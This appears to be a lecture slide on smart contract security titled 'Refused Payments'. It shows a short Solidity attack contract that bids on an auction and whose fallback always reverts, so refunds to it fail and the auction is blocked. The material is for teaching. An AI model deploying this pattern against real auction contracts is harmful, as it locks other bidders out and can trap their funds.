

# Refused Payments
contract AuctionAttackLOL {
  fallback() external payable {
    revert("LOL");
  }
  function bid(Auction auction)
   public payable {
    auction.bid();
    }
}

Called by receiver when ether is transferred
9